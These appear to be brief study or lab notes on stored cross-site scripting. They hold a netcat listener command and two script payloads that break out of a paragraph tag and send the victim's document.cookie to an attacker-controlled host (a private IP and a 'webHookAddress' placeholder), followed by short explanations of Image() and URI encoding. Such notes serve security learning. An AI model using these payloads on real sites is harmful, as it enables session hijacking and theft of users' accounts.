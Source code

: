 
```sh
nc -nvlp 4444
```

stored xss

 `escape <p> tag first`

```html
</p> <script>new Image().src="http://192.168.57.5:4444/?"+ encodeURI(document.cookie);</script>
```

```html
</p><script>var i=new Image; i.src="webHookAddress/?"+document.cookie;</script>
```

new Image() contructor create an image object
it is similar to

document.createElement("image")

The encodeURIComponent() function encodes a URI by replacing each instance of certain characters by one, two, three, or four escape sequences representing the UTF-8

